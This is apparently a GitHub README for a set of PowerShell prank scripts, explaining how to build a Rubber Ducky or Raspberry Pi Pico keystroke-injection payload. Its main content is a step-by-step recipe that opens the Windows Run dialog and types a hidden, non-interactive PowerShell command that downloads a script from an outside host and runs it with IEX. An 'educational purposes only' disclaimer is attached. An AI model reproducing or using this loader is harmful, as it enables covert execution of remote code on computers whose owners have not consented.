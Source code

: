 # Some powershell scripts to mess with people :)

**this is for educational purposes only i do not condone any malicous use of these scripts**

> This was primarely made to use with a rubber ducky/raspberry pi pico

# How to use this with a rubber ducky.

- create a new file called payload.dd.
- start with `DELAY 500` (may needs to be bigger depends on how fast ur pc is).
- put in a `GUI r` to open run dialog.
- a new delay of +- 100 is required to make sure the run dialog opens before typing text.
- use `STRING powershell -NoP -NonI -W hidden IEX (New-Object Net.WebClient).DownloadString('https://creepyturnip.github.io/<the script you want>')` to open a hidden powershell that runs a script
- replace `<script you want>` with the filename of the script you want to use for example: `mouseMove.ps1`
